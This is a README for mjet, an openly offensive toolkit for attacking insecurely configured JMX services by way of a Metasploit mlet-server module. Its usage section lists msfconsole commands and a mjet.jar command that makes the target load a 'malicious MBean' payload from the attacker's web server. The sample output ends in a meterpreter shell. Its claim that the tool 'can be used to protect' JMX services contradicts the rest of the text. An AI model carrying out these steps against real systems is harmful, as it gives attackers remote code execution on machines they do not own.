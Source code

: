 # mjet
Mogwai Security Java Management Extensions (JMX) Exploitation Toolkit

mjet is a tool that can be used to protect insecure configured JMX services. It is based on
the blog post "Exploiting JMX-RMI" from Braden Thomas/Accuvant "http://www.accuvant.com/blog/exploiting-jmx-rmi" 
and can be used to execute arbitrary Metasploit payloads on the target system.

Mjet was originally planned to be a complete attack toolkit, however we noticed that the Metasploit Github repository contains 
a pull request which will provide basic Java RMI/serialization support in native ruby. This is awesome and removes the Java 
dependency. So we stopped developing this tool  and focus on Metasploit instead.

mjet consists of the following parts:
- A metasploit module which emulates a "mlet Server". This is basically a web server which hosts a html file that contains a mlet tag
- A ManagedBean that is changed by the mlet server module to include the selected payload
- A jar archive that is used to contact the insecure JMX service.


### Installation (with the github version of Metasploit)
- Copy the "MBean" folder to "data/java/metasploit"
- Copy java_mlet_server.rb to "modules/exploits/multi/misc/"

### Usage 

The example uses following systems:
attacker: 192.168.178.1
target: 192.168.178.200, JMX service running on tcp port 1616

- Configure/start the metasploit module "java_mlet_server". The module will run as a background job
```
msf > use exploit/multi/misc/java_mlet_server
msf > set LHOST 192.168.178.1
msf > set SRVHOST 192.168.178.1
msf > set URIPATH /mlet/
msf > run
```

Use mjet.jar to connect to the vulnerable JMX service and provide the URL to the MLet Web server...
```
java -jar mjet.jar -t 192.168.178.200 -p 1616 -u http://192.168.178.1:8080/mlet/
---------------------------------------------------
MJET - Mogwai Security JMX Exploitation Toolkit 0.1
---------------------------------------------------

[+] Connecting to JMX URL: service:jmx:rmi:///jndi/rmi://192.168.178.200:1616/jmxrmi ...
[+] Connected: rmi://192.168.178.164  5
[+] Trying to create MLet bean...
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.178.1:8080/mlet/
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
[+] Loaded class: metasploit.Metasploit
[+] Loaded MBean Server ID: ptIIirfM:name=BlPwaoHu,id=oWTqfkbE
[+] Invoking: metasploit.Metasploit.run()
[+] Done

```

and enjoy your meterpreter shell :-)

